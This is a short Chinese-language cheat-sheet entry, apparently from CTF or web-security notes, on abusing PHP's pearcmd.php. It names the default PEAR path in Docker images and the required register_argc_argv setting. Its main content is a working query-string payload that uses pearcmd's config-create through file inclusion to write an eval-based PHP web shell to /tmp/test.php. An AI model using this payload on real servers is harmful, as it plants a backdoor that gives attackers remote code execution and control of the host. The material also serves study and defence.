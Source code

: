 ### 🍐 pear.php

> pear全称PHP Extension and Application Repository，php扩展和应用仓库，在docker中默认安装，路径为/user/local/lib/php.

前提需要：`register_argc_argv` 是 `on`

```php
?+config-create+/&file=/usr/local/lib/php/pearcmd&/<?=@eval($_POST['cmd']);?>+/tmp/test.php
```

![image-20240910220705627](https://gitee.com/bx33661/image/raw/master/path/image-20240910220705627.png)


